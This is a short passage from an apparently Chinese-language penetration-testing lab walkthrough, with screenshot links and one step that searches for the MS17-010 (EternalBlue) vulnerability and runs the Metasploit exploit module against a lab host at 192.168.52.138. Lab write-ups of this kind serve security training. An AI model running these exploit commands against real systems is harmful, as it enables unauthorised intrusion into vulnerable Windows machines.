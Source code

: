    ![28.png](img/ATT&CK/ATT&CK1/png28.png)

3. 扫描一下ms17-010，存在ms17-010漏洞
   
   ```powershell
   search ms17_010
   use 3
   set rhost 192.168.52.138
   exploit
   ```
   
   ![29.png](img/ATT&CK/ATT&CK1/png29.png)
